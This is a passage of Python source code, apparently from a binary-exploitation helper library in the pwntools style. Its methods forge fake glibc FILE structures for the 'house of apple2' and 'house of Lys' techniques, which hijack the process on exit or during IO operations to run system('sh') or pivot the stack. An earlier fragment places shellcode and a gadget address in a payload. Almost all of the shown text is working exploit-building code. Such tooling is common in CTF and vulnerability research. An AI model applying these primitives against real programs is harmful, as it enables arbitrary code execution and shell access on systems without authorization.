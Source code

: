```python
                0x88: 7,
                0x100: fp_heap_addr + 0x310,
                0x1c0: gadget_addr,
                0x200: shellcode
            }
        })
        return payload

    # house of apple2: https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/
    # suitable for ubuntu 22.04
    def house_of_apple2_execmd_when_exit(self, standard_FILE_addr: int, _IO_wfile_jumps_addr: int, system_addr: int, cmd: str="sh"):
        """make sure standard_FILE_addr is one of address of _IO_2_1_stdin_/_IO_2_1_stdout_/_IO_2_1_stderr_. If not, content of standard_FILE_addr-0x30 and standard_FILE_addr-0x18 must be 0."""
        assert context.bits == 64, "only support amd64!"
        assert len(cmd) < 7, "length of cmd must lower than 7"
        self.flags = unpack("  " + cmd.ljust(6, "\x00"), 64)  # "  sh"
        self._IO_write_base = 0
        self._IO_write_ptr = 1
        self._mode = 0
        self._lock = standard_FILE_addr-0x10
        self.chain = system_addr
        self._codecvt = standard_FILE_addr
        self._wide_data = standard_FILE_addr - 0x48
        self.vtable = _IO_wfile_jumps_addr
        return self.__bytes__()
    
    house_of_apple2_execmd_when_do_IO_operation = house_of_apple2_execmd_when_exit

    # house of apple2: https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/
    # suitable for ubuntu 22.04
    def house_of_apple2_stack_pivoting_when_exit(self, standard_FILE_addr: int, _IO_wfile_jumps_addr: int, leave_ret_addr: int, pop_rbp_addr: int, fake_rbp_addr: int):
        """make sure standard_FILE_addr is one of address of _IO_2_1_stdin_/_IO_2_1_stdout_/_IO_2_1_stderr_. If not, content of standard_FILE_addr-0x30 and standard_FILE_addr-0x18 must be 0."""
        assert context.bits == 64, "only support amd64!"
        self.flags = 0 
        self._IO_read_ptr = pop_rbp_addr
        self._IO_read_end = fake_rbp_addr
        self._IO_read_base = leave_ret_addr
        self._IO_write_base = 0
        self._IO_write_ptr = 1
        self._mode = 0
        self._lock = standard_FILE_addr-0x10
        self.chain = leave_ret_addr
        self._codecvt = standard_FILE_addr
        self._wide_data = standard_FILE_addr - 0x48
        self.vtable = _IO_wfile_jumps_addr
        return self.__bytes__()

    house_of_apple2_stack_pivoting_when_do_IO_operation = house_of_apple2_stack_pivoting_when_exit

    def house_of_Lys_getshell_when_exit_under_2_37(self,
                                                   system_addr : int, 
                                                   _IO_obstack_jumps_addr : int, 
                                                   fp_heap_addr : int,
                                                   ):
        '''
        House_of_Lys to getshell:
        Args:
            system_addr: Address of system
```